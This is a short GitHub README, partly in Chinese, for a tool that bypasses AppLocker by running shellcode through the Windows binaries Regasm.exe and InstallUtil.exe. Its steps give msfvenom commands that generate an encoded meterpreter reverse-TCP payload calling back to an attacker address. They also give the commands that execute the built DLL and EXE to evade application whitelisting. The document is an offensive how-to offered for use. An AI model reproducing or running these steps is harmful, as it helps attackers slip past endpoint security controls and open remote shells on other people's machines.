

# Regasm_InstallUtil_ApplockerBypass
AppLocker Bypass With Regasm/InstallUtil

RegasmBypass 使用方法
=============

1. Modify shellcode.txt file and add ShellCode generated by msfvenom, Example:msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.231.138 lport=4444 -e x8
6/shikata_ga_nai -i 15 -f csharp

2.  Generate Success, Name : RegasmBypass.dll

3.  Add the generated RegasmBypass.dll to Regasm.exe, Example: C:\Windows\Microsoft.NET\Framework\v4.0.30319\regasm.exe /U RegasmBypass.dll

InstallUtilBypass 使用方法
=============

1. Modify shellcode.txt file and add ShellCode generated by msfvenom, Example:msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.231.138 lport=4444 -e x8
6/shikata_ga_nai -i 15 -f csharp

2.  Generate Success, Name : InstallUBypass.exe

3.  Add the generated InstallUBypass.exe to InstallUtil.exe, Example: C:\Windows\Microsoft.NET\Framework\v2.0.30319\InstallUtil.exe /U InstallUBypass.exe

